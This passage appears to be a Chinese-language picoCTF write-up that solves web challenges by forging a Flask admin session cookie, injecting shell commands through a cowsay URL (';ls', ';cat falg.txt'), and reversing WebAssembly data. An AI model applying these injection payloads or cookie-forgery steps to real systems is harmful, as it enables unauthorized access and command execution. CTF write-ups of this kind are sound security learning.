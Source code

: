     print("Admin Cookie: %s" % admin_cookie_encoded)
    
    
    if __name__ == '__main__':
        pass
    ```

5. 但首先我们需要确定我们应该在 cookie 中设置什么值。我们可以在 [服务器代码](./sever.py) 的第 45-47 行找到它。

   ```
    check = session["very_auth"]
    if check == "admin":
        resp = make_response(render_template("flag.html", value=flag_value, title=title))
    ```

    所以，我们需要在cookie中存储`{"very_auth": "admin"}` 。

6. 运行 solve [ script ](./script.py) 将尝试每个秘密密钥，然后一旦通过解码已知 cookie 成功找到密钥，它将对上述 cookie 数据进行编码。

7. 我们可以用我们的admin cookie替换网站上的cookie，刷新页面，就会显示flag。


## caas

Description：Now presenting cowsay as a service

思路：这是一个命令注入漏洞，依次在url 输入

1. `https://caas.mars.picoctf.net/cowsay/%7Bmessage%7D;ls`
2. `https://caas.mars.picoctf.net/cowsay/%7Bmessage%7D;cat%20falg.txt`


## Some Assembly Required 3

Description：http://mercury.picoctf.net:12557/index.html

思路：
1. 先 wasm 转 wat：`https://webassembly.github.io/wabt/demo/wasm2wat/index.html`
    ```
    (data $d0 (i32.const 1024) "\9dn\93\c8\b2\b9A\8b\c2\97\d4f\c7\93\c4\d4a\c2\c6\c9\ddb\94\9e\c2\892\91\90\c1\dd3\91\91\97\8bd\c1\92\c4\90\00\00")
    (data $d1 (i32.const 1067) "\f1\a7\f0\07\ed"))
    ```
2. 把字符串转化为对应的 16 进制
    ```
    arr_1067 = [
        0xf1, 0xa7, 0xf0, 0x07, 0xed,
    ]
    
    arr_1024 = [
        0x9d, 0x6e, 0x93, 0xc8, 0xb2, 0xb9, 0x41, 0x8b, 0xc2, 0x97, 0xd4, 0x66, 0xc7, 0x93, 0xc4, 0xd4, 0x61, 0xc2, 0xc6, 0xc9, 0xdd, 0x62,
        0x94, 0x9e, 0xc2, 0x89, 0x32, 0x91, 0x90, 0xc1, 0xdd, 0x33, 0x91, 0x91, 0x97, 0x8b, 0x64, 0xc1, 0x92, 0xc4, 0x90, 0x00, 0x00
    ]
    ```
3. 运行脚本
    ```
    # -*- coding:utf-8 -*-
    """
        @Time  : 2022/12/12  10:39
        @Author: Feng Lepeng
        @File  : t5.py
        @Desc  :
    """
    import ctypes
   ```